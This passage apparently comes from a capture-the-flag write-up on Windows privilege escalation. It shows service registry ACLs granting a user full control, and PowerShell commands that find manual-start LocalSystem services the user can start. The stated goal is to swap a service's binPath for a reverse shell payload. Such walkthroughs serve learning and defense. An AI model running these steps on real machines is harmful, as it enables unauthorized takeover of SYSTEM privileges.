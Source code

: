 ```
NT AUTHORITY\SYSTEM: AccessAllowed (ChangePermissions, CreateLink, CreateSubKey, Delete, EnumerateSubKeys, ExecuteKey, FullControl, GenericExecute, GenericWrite, Notify, QueryValues, ReadPermissions, SetValue, TakeOwnership, WriteKey)

BUILTIN\Administrators: AccessAllowed (ChangePermissions, CreateLink, CreateSubKey, Delete, EnumerateSubKeys, ExecuteKey, FullControl, GenericExecute, GenericWrite, Notify, QueryValues, ReadPermissions, SetValue, TakeOwnership, WriteKey)

CONTROL\Hector: AccessAllowed (ChangePermissions, CreateLink, CreateSubKey, Delete, EnumerateSubKeys, ExecuteKey, FullControl, GenericExecute, GenericWrite, Notify, QueryValues, ReadPermissions, SetValue, TakeOwnership, WriteKey)
APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES: AccessAllowed (EnumerateSubKeys, ExecuteKey, Notify, QueryValues, ReadPermissions)
```
Although we can change the binary path values this isn't userful unless we're able to `start` a paticular services running as privileged user.

Now, we're intersed in services running as `NT Authority\SYSTEM`, which are configured with a manual start type, that we also have permission to start. 

We'll start checking for services that has `ObjectName: LocalSystem` and `Start: 3` set whcih mean `manual Startup`. `start: 2 (Autoload)` , `start: 4 (Disabled)`.
```powershell
PS C:\Users\Hector\Documents> $services = Get-ItemProperty -Path HKLM:\System\CurrentControlSet\Services\*

PS C:\Users\Hector\Documents> $services | where {($_.ObjectName -match 'LocalSystem') -and ($_.Start -match '3')}
<SNIP>
Description    : @%Systemroot%\system32\wbem\wmiapsrv.exe,-111
DisplayName    : @%Systemroot%\system32\wbem\wmiapsrv.exe,-110
ErrorControl   : 1
FailureActions : {132, 3, 0, 0...}
ImagePath      : C:\Windows\system32\wbem\WmiApSrv.exe
ObjectName     : localSystem
ServiceSidType : 1
Start          : 3
Type           : 16
PSPath         : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\wmiApSrv
PSParentPath   : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services
PSChildName    : wmiApSrv
PSDrive        : HKLM
PSProvider     : Microsoft.PowerShell.Core\Registry
<SNIP>
```
Last thing we've to check for the services Names that we've permission to `start`. So, That we can change our their `binPath` to our `reverse shell` payload and start the service to get a shell.
```powershell
PS C:\Users\Hector\Documents> $tmp = $services | where {($_.ObjectName -match 'LocalSystem')}

PS C:\Users\Hector\Documents> $serviceNames = $tmp.pschildname

PS C:\Users\Hector\Documents> $canStart = foreach ($service in $serviceNames) { $sddl = (cmd /c sc sdshow $service); if ($sddl -match "RP[A-Z]*?;;;AU") { $service}}

PS C:\Users\Hector\Documents>$canStart
AppVClient
ConsentUxUserSvc
DevicePickerUserSvc
DevicesFlowUserSvc
PimIndexMaintenanceSvc
PrintWorkflowUserSvc
```